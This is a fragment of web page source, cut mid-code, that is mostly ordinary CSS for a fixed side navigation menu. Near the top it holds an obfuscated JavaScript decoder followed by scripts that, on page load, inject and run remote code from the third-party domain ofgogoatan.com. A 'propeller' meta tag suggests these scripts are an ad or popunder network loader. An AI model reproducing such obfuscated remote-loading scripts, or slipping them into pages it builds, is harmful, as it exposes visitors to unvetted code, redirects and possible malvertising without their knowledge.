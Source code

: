 r='YzR(vh&ekK7r-]syW5=9lH^3qS~MwEoZ*6#:i}NBtAcpV1)4T_0mjUO[xQJuCG2ndP!XI/LDF@8fb|ga,',t=['.','%','{'],e='',i=1,f=0;f<n.length;f++){var o=r.indexOf(n[f]);t.indexOf(n[f])>-1&&0===t.indexOf(n[f])&&(i=0),o>-1&&(e+=String.fromCharCode(i*r.length+o),i=1);}return e;})),(function(s){var _={};for(k in s){try{_[k]=s[k].bind(s);}catch(e){_[k]=s[k];}}return _;})(document))</script><script>(function(d,z,x,s,e,o){s.src='//'+d+'/tag.min.js';x.open('GET','//'+d+'/apu.php?zoneid='+z+'&oo=1',!0);s.onerror=x.onerror=E;s.onload=x.onload=g;x.send();(document.body||document.documentElement).appendChild(s);function g(){o=this.response?JSON.parse(this.response):o;o&&window.kkp4a5x5tv&&window.kkp4a5x5tv(o);}function E(){e&&e();e=null;}})('ofgogoatan.com',3146484,new XMLHttpRequest(),document.createElement('script'),_ymrjlbw)</script>  
<script type="text/javascript" src="//ofgogoatan.com/apu.php?zoneid=3146484" async data-cfasync="false"></script>  
<meta name="propeller" content="1f9e006d64bf8b72f41a9ea6f8efcb12">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css">
<body style="background-color:black;"></body>
<style>
body {
  font-family: Arial, Helvetica, sans-serif;
}

/* Fixed sidenav, full height */
.sidenav {
  height: 100%;
  width: 300px;
  position: fixed;
  z-index: 1;
  top: 0px;
  left: 70px;
  background-color: #fff;
  overflow-x: hidden;
  padding-top: 20px;
}

/* Style the sidenav links and the dropdown button */
.sidenav a, .dropdown-btn {
  padding: 6px 8px 6px 16px;
  text-decoration: none;
  font-size: 20px;
  color: black;
  display: block;
  border: none;
  background: #Ffff;
  width: 100%;
